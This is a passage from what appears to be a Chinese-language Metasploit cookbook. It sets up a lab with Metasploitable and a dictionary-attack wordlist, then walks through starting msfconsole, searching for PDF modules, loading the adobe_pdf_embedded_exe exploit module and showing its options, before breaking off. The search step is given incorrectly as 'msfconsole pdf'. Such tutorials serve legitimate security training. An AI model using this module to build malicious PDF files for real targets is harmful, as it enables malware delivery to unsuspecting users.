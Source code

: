 *   内部网络的连接。

*   运行在渗透环境中的 Metasploitable 。

*   用于执行字典攻击的单词列表。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE。

    ```
    msfconsole 
    ```

3.  搜索可用的 PDF 模块。

    ```
    msfconsole pdf
    ```

    ![](../img/fddd0fddc4d6d4f5e0477cbd414f3f2d.png)

4.  使用 PDF 内嵌模块：

    ```
    use exploit/windows/fileformat/adobe_pdf_embedded_exe 
    ```

5.  显示模块的可用选项。

    ```
    show options
    ```
